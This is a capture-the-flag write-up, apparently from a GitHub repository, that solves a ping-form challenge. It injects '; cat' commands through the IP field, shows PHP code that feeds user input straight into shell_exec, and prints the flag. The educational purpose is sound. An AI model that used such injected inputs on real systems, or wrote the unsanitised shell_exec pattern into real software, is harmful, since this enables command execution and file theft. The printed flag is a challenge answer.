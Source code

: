 ```yaml
---
custom_edit_url: null
sidebar_position: 9
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/d1e2fbf5-dde6-4680-9880-434f849e9474)

Let's input `127.0.0.1` as the input field is suggesting.

![2](https://github.com/Knign/Write-ups/assets/110326359/46f87312-d86a-4939-850e-15b020fbf31a)

We can see that our input is used to execute a `ping` command.

We know the flag is on the `index.php` file. In order to `cat` the flag we need to use the `;` separator.

## User Input
```
127.0.0.1 ; cat index.php
```

![3](https://github.com/Knign/Write-ups/assets/110326359/f9499c2f-64bc-4eb4-939f-37f2c9975779)

Looks like our input was processed properly. Let's check the source code.

![4](https://github.com/Knign/Write-ups/assets/110326359/bd7601d5-dff6-4840-94ae-b3d43248550b)

The source code reveals an interesting piece of code.
## PHP code
```php
<?php 
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
```
The line `shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'")` executes a shell command based on user input ($_POST["ip"]).

The line `"".file_get_contents(".passwd").""` reads the content of a file named `.passwd` and appends it to the `$flag` variable. 

Let's modify our input to `cat` the `.passwd` file.

## User Input
```
127.0.0.1 ; cat .passwd
```

![5](https://github.com/Knign/Write-ups/assets/110326359/852de8c6-c743-4a7f-bcc9-01dbd8f42823)

## Flag
```
S3rv1ceP1n9Sup3rS3cure
```
